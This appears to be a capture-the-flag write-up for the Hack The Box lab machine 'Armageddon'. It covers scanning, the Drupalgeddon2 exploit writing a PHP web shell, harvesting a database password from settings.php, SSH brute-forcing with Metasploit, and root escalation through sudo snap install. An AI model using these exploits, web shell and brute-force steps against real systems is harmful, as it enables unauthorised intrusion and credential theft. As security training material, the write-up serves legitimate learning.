


Armageddon
Table of Contents
Enumeration
Using Nmap, the output is as follows:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-24 00:53 WEST Nmap scan report for 10.10.10.233 Host is up (0.040s latency). Not shown: 65533 closed ports PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.4 (protocol 2.0) | ssh-hostkey: | 2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA) | 256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA) |_ 256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519) 80/tcp open http Apache httpd 2.4.6 ((CentOS) PHP/5.4.16) |_http-generator: Drupal 7 (http://drupal.org) | http-robots.txt: 36 disallowed entries (15 shown) | /includes/ /misc/ /modules/ /profiles/ /scripts/ | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt |_/LICENSE.txt /MAINTAINERS.txt |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16 |_http-title: Welcome to Armageddon | Armageddon Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 30.92 seconds
There is a fair amount of information related to port 80:
- Apache httpd 2.4.6
- PHP 5.4.16
- Drupal 7
- Several directories in
robots.txt
After adding an entry to /etc/hosts as 10.10.10.233 armageddon.htb, it is
possible to access the website:

From the screenshot, it is possible to see that there is a login form and it is also possible to create a new account and request a new password.
Creating a new account kind of works because it shows a success message alongside an error message.

There are many things we could try: checking for SQL Injection, using Burp to
verify requests/responses, etc.
There is also something else that is possible to do, and that is to check whole
robots.txt file in http://armageddon.htb/robots.txt. There are some open
directories, and there are some files that can be read. One of them is called
CHANGELOG.txt, which contains information on the current Drupal version. We
already have the information that Drupal is on version 7, but in this file we
have the information that Drupal is on version 7.56. From here, it is possible
to verify on Exploit-DB that there are some
exploits that could work on this version. By searching Drupal, many results
appear. One of them is more interesting than the others, in this case in
particular, because of its name: Drupalgeddon2. This may be the one
we’re looking for.
This one can also be found on
Github.
I did download it from Github and ran it:
λ Drupalgeddon2 (master) $ ruby drupalgeddon2.rb http://armageddon.htb/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[i] Target : http://armageddon.htb/
--------------------------------------------------------------------------------
[+] Found : http://armageddon.htb/CHANGELOG.txt (HTTP Response: 200)
[+] Drupal!: v7.56
--------------------------------------------------------------------------------
[*] Testing: Form (user/password)
[+] Result : Form valid
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Clean URLs
[!] Result : Clean URLs disabled (HTTP Response: 404)
[i] Isn't an issue for Drupal v7.x
--------------------------------------------------------------------------------
[*] Testing: Code Execution (Method: name)
[i] Payload: echo WYSXAWJW
[+] Result : WYSXAWJW
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file (http://armageddon.htb/shell.php)
[!] Response: HTTP 200 // Size: 6. ***Something could already be there?***
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
[*] Testing: Writing To Web Root (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell: curl 'http://armageddon.htb/shell.php' -d 'c=hostname'
This gives a reverse shell into the server.
armageddon.htb>> whoami apache armageddon.htb>> id uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0 armageddon.htb>> pwd /var/www/html
User
In this situation it is not really possible to move to many other directories
except the ones in our current directory, /var/www/html. Can’t hurt if we try
to find every instance of the word password in our current directory:
$ grep -rn "password" .
We get some interesting results in the middle of the output:
./modules/user/user.test:732: require_once DRUPAL_ROOT . '/' . variable_get('password_inc', 'includes/password.inc');
./sites/default/settings.php:254: 'password' => 'CQHEy@9M*m23gBVj',
There is a password in ./sites/default/settings.php, and some other
information around that line where the password is:
'database' => 'drupal', 'username' => 'drupaluser', 'password' => 'CQHEy@9M*m23gBVj',
At the same time, we can verify /etc/passwd to check existing users:
$ cat /etc/passwd root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin dbus:x:81:81:System message bus:/:/sbin/nologin polkitd:x:999:998:User for polkitd:/:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
There is a user called brucetherealadmin and it could be a potential target
for SSH bruteforcing. To do this the easy way, Metasploit can be used with it’s
auxiliary module, auxiliary/scanner/ssh/ssh_login, alongside a wordlist from Seclists:
msf6 > use auxiliary/scanner/ssh/ssh_login msf6 auxiliary(scanner/ssh/ssh_login) > set stop_on_success true stop_on_success => true msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 10.10.10.233 rhosts => 10.10.10.233 msf6 auxiliary(scanner/ssh/ssh_login) > set username brucetherealadmin username => brucetherealadmin msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true verbose => true msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file 100k-most-used-passwords-NCSC.txt pass_file => 100k-most-used-passwords-NCSC.txt msf6 auxiliary(scanner/ssh/ssh_login) > exploit [+] 10.10.10.233:22 - Success: 'brucetherealadmin:booboo' 'uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 Linux armageddon.htb 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux '
After some tries, we find out that the password booboo is the one for the user
brucetherealadmin. Then we just use SSH to login and get the user.txt.
Accessing the database would be more complicated than bruteforcing, interacting
with it would also be difficult and wouldn’t guarantee any kind of relevant
information to get the user flag.
Root
One of the first things to do is check what the user can run as sudo without needing the password:
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
!visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin
User brucetherealadmin may run the following commands on armageddon:
(root) NOPASSWD: /usr/bin/snap install *
From the output, snap command can be executed as sudo without password. From
here, we can verify in GTFOBins
that is it possible to execute arbitrary commands as sudo by following the
instructions on the website. In this case, instead of naming the snap package as
x, it should have a name with more than a single character. Also, the command
that I used to get the root flag was cat /root/root.txt.